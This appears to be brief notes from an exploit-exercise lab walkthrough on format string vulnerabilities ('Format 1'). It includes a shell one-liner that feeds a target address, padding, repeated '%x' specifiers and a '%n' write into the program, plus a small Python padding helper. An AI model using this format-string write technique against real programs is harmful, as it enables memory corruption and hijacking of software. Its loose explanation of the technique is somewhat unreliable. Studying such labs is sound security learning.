 # Format 1
Format string vulnerabilities. (Memory Leak) <br>
Functions are called simply by placing they're address at the stack <br>

Using `objdump -t` we can find the target address.
Since the program arguments are symply stored at the stack
```
./format1 "`python -c "print 'AAAA' + '\x38\x96\x04\x08' + 'BBBB' + '%x '*127 + '%n '"`"
```

```python
def pad(s):
    return (s+"A"*500)[:500] #returns only first 500 chars

pad("Hello")
```
